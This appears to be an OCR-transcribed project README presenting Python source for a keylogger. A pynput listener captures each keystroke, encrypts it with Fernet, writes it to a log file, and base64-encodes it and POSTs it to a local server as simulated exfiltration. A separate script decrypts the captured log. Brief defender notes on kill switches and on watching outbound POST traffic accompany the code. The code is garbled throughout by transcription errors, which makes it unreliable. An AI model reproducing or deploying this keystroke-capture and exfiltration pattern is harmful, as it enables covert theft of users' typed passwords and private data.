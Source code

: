 Keylogger Project=>
Here I had uploaded the program for keylogger which are 2 pdf's and uploaded output as a screenshot(3 photos uploaded in PNG).
A keylogger is a Program or tool which is used to capture keystrokes.As well as I had used encrypted data Exfilteration.
Exfiltration is a process of transfer of sensitive information from a computer system or network an external destination. 
Exfiltration is actually just same as data theft where attackers aim to extract values data for malicious purposes.
Here following libraries are used for following purposes:-

import os->for file system operation (like checking if the key file exists).

from pynput import Keyboard->Pynput is a library which is used to control and monitor input devices such as keyboard and mouse.From this I included Keyboard for monitoring keyboard.For capturing and Listening to
keytrokes on the system.
From cryptograppy fernet import ferner->This Library provides a secure and easy to use symmetric encryption scheme Here fernet is an encryption algorithom.
import base 64-> for encoding the encrypted data to safely send over the network
import datetime-> For generating timestamp for log entries.
import requests->for sending HTTP POST requests (simulating exfiltration).

Fernet:
The scheme used here is fernet.
Fernet is a symmetric encryption scheme provided by the cryptography library in Python. It is designed to be a secure and user-friendly way to encrypt and decrypt data.
->key File='encryption_key.key':Defines a filename to save or load the encryption key.
->if os.path.exists (key_File):Checks if encryption key file exists.
->with open (Key_File,'rb') as f: If exists, open the key file in binary read mode.
->Key=f.read(): Read the saved fernet key from fik.
->else:If the key file does not exist, generate one.
->Key = Fernet. generate_key()
→ with open (key_File,'wb') as f:creates a new key file for writing the newly generated key.
->f.write (KEY):saves the key to a file for writing the newly generated key.
->fernet = Fernet (KEY):Initializes the zernet encryption/decryption instance with the key.
->Log_File = "keys.txt":Sets the filename where encrypted keystore will be stored.
->KILL_SWITCH=keyboard Key.esc:Sets the ESC key as the kill switch which when pressed will stop logging.

Note:Malware often has kill switches for testing. Analysts can search for these as potential weak points to terminate execution.

Writing Encrypted Logs
Prepare a log entry with timestamp + keystrokes Encrypts it with Fernet.
Writes encrypted data to file
Base64 encodes it and exfilterates by POSTING to a server
Note:I was confused here Log-data is not a pre-defined paramater.It is actually taken that while Calling function we pass the real arguments.
Code->
def
Write_encrypted_logo(log-data):
      timestamp=datetime.datetime.utconow().isofformat()
      log = f"{timestamp}:{log_data}\n"
      enc_log = ferrnet.encrypt (log.encode) 
      with open (LOG_FILE, "ab") as f:
           f.write (enc_log +b'\n')
#simulate exfiltration
b64_ence_log = base64.64 encode(enc_log).decode()
requests.port('http://127.0.0.1:5000/recieve'),
data = {'data': b64_enc_log}
Note:
Defenders should monitor Post traffu to unknown servers and scan for encrypted data leaving endpoints.

Keylogger Listener
def on_press(key):
     try:
        write_encrypted_log(str(key.char))
     except AttributeError:
        write_encrypted_log (str(key))
      if key==KILL_SWITCH:
           #end listener
           return False
Listener=keyboard. Listener(on_press=on_press)
listener.start()
listener.join()
def on_press(key):Defines the callback function that is triggered every time a key is pressed.The key parameter represent the key that was pressed.
try: Starts a try expect block to handle different types of key presses.
→Write- encrypted-log (str key char)):Tries to get the character representation of the key(e.g..'a',b','1') and passes it the write_encrypted_log function.This works for most alphanumeric keys.
→ except Attribute Error: This Block is executed if key.char fails, which happen sfor special keys like shift, ctrl or space.
->write_encrypted_log(str(key.char)):tries to get the character representation of the key(e.g..,'a','b,'1')and passes it the write_encrypted_log function.This works for most alphanumeric keys.
→ if key == KILL-switch: checks if the pressed key is the delignated kill switch (sscape)
→ return False: If the kill switch is pressed this line returns false, which signals the pynput listener to stop.
→listener = keyboard.Listener(on_press=on_press) creates an instance of the keyboard.listener class. It configured to call the on_press function wheneler a key is pressed.
->listener.start() :- starts the listener in a seperate thread, allowing to continue the main program running.
→ listener.join():starts for the listener thread to finish. This keeps the program running and listening for key presses untill the return False statement is triggered by the kill switch.

This was the code for encrypting and capturing key strokes storing in a file.
Now I will write the code for reading,decrypting and printing the keystrokes that had been captured,encrypted and stored in a file.
Here the encryption used for encrypting and decrypting is symmetric Encryption which uses a single for this operation.
Algorithim:-
Fernet Key -The scripts leads a symmetric encryption key from a file named encryption_key.key and uses it to instantiate the Fernet object.
Reading Encrypted Data - It reads all lines in Keys.txt, each presumed to be individual encrypted log line.
Decryption Process: Each line is stripped of whitespace (to remove newline character) and then decrypted using Fernet.If decryption succeeds, the original plaintext log is printed with time stamped; otherwise an error message occurs.
From cryptography.fernet import Fernet → This line imports the fernet class from the cryptography.fernet module.Fernet is a symmetric encryption scheme that provides a high level API for encrypting and decrypting data.symmetric means the same key is used for both encryption and decryption.
Note:
Here we have encoded and decoded the text before encrypting because fernet encryption algorithim operate on raw bytes, not on text strings. The byte string was then passed to the fernet. decrypt() and encrypt method. It was encoded and decoded into Bytes before encrypting by UTF-8 method.

Code & explaination:

->from cryptography.Fernet import Fernet=>This line imports class from the cryptography library for symmetric encryption and decryption.
->with open('encryption_key.key','rb') as f:key=f.read()=>This block opens the encryption_key.key file in read binary(rb) mode and reads the encryption key.
->fernet=Fernet(key)=>This line creates a Fernet object using the loaded key.
->with open ('keys.txt','rb') as f: encrypted lines=f.readlines(): This block opens keys.txt file in read-binary(rb) mode.
->for enc_line=enc_line.strip()=>The strip() method is used to remove any leading or traiing whitespaces, including the newline character (\n) that are often at the end of lines when reading as a byte.
=>decrypted_log=decrypted_bytes.decode()=>Since the output of decrypt() is a byte string, you need to convert it to a human-readable string.
=>print(decrypted_log)=>For printing decrypted log data.
=>except Exception as e:printf("Failed to decrypt a line:{e}")
